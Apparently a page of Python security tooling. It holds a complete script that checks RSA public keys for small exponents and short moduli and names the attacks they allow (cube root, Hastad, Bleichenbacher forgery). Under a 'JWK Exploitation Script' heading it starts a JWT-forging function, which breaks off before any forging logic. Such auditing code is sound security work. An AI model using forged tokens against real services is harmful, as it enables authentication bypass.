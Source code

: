 ```python
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sys
import gmpy2

def check_public_exponent(pem_file):
    with open(pem_file, 'rb') as f:
        pem_data = f.read()
    
    public_key = serialization.load_pem_public_key(pem_data, default_backend())
    e = public_key.public_numbers().e
    n = public_key.public_numbers().n
    
    print(f"Public key info for {pem_file}:")
    print(f"Modulus (n): {n}")
    print(f"Public exponent (e): {e}")
    
    if e < 10:
        print("WARNING: Small public exponent detected!")
        if e == 3:
            print("Extremely vulnerable exponent e=3 detected. Potential attacks:")
            print("- Cube root attack if messages are sent without proper padding")
            print("- Hastad's broadcast attack if same message is encrypted with multiple keys")
            print("- Bleichenbacher's e=3 signature forgery if PKCS#1 v1.5 padding is not properly verified")
    
    bit_length = n.bit_length()
    print(f"Key size: {bit_length} bits")
    
    if bit_length < 2048:
        print(f"WARNING: Key size ({bit_length} bits) is below recommended minimum of 2048 bits!")

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 check_rsa_exponent.py <public_key.pem>")
        sys.exit(1)
    
    pem_file = sys.argv[1]
    check_public_exponent(pem_file)

if __name__ == "__main__":
    main()
```

### JWK Exploitation Script

```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from jose import jwk
import jwt
import argparse

def create_forged_jwt(payload, private_key_path, output_file=None):
    # Load payload
    jwt_payload = payload
    
    # Generate JWK from public key
    with open(private_key_path, 'rb') as f:
        private_key_pem = f.read()
    
    # Extract public key from private key
```